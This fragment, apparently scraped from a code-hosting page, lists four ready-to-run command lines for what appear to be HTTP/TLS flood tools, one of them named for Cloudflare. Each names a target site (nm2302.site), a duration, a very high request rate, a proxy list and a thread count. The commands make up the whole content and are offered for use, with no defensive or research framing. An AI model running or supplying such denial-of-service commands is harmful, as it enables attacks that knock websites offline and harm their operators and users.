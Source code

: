 tool 1
go run cloudflare.go https://nm2302.site 12000 100000 proxy.txt 100000

tool 2
node tlsv2.js https://nm2302.site 1200 100000

tool 3
./a <target> <duration> <rps> <proxylist> <threads>

tool 4
go run main.go https://nm2302.site 120000 100000 proxy.txt 100000
